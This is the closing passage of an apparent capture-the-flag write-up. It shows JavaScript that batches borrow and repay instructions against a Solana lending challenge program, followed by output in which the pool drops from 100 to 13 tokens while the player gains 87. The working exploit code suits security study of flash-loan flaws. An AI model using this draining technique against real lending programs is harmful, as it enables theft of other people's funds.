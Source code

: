 ```js
    }));

    // borrowing 12
    txn.add(program.instruction.borrow(new BN(12), {
        accounts: {
            player: player.publicKey,
            user: player.publicKey,
            state: accounts.state,
            pool: accounts.pool,
            poolAccount: accounts.poolAccount,
            depositorAccount: playerTokenAccount.address,
            instructions: SYSVAR_INSTRUCTIONS_PUBKEY,
            tokenProgram: TOKEN_PROGRAM_ID
        }
    }));

    // repay 12
    txn.add(program.instruction.repay(new BN(12), {
        accounts: {
            chall3: program._programId,
            player: player.publicKey,
            user: player.publicKey,
            state: accounts.state,
            pool: accounts.pool,
            poolAccount: accounts.poolAccount,
            depositorAccount: playerTokenAccount.address,
            tokenProgram: TOKEN_PROGRAM_ID
        }
    }));

     
    const sign = await anchor.web3.sendAndConfirmTransaction(conn, txn, [player]);
    console.log("Signature: "+ sign);


    // pool balance
    poolAccount = await spl_token.getAccount(conn, accounts.poolAccount);
    console.log(`Pool amount: ${poolAccount.amount}`);

    // player token account
    playerTokenAccount = playerTokenAccount = await spl_token.getAccount(conn, await spl_token.getAssociatedTokenAddress(accounts.atomcoinMint, player.publicKey));
    console.log(`Player amount: ${playerTokenAccount.amount}`);
}
```

```bash
Pool amount: 100
Player amount: 0
Signature: 5sCRK6JkPTPfMfL5UVqjBc63G55wNUesZqNy6j6id46ourxYyfKLyMyHgcoXSfQoGUQCyupKzMa5zbpMFsDaxsnb
Pool amount: 13
Player amount: 87
```


<hr>
Thanks for reading :)
<hr>
